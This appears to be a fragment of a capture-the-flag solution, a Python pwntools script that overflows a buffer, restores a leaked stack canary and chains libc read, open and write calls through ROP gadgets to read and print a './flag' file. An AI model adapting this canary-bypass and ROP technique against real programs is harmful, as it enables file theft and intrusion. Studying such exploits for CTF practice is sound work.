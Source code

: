 ```python

read_addr = base + libc.symbols['read']

open_addr = base + libc.symbols['open']

write_addr = base + libc.symbols['write']

  

payload2 = b'a' * (0x38) + p64(canary)

  

payload2 += p64(ret) + p64(rsi_r15) + p64(bss) + p64(0)

payload2 += p64(read_addr)

  

payload2 += p64(rdi) + p64(bss)

payload2 += p64(rsi_r15) + p64(0) + p64(0)

payload2 += p64(rdx_rbx) + p64(0) + p64(0)

payload2 += p64(open_addr)

  

payload2 += p64(rdi) + p64(3)

payload2 += p64(rsi_r15) + p64(bss) + p64(0)

payload2 += p64(rdx_rbx) + p64(0x100) + p64(0)

payload2 += p64(read_addr)

  

payload2 += p64(rdi) + p64(1)

payload2 += p64(rsi_r15) + p64(bss) + p64(0)

payload2 += p64(rdx_rbx) + p64(0x100) + p64(1)

payload2 += p64(write_addr)

  

p.recvuntil(b'can you did it?')

p.send(payload2)

pause()

p.send(b'./flag\x00')

  

p.interactive()
```
flag:
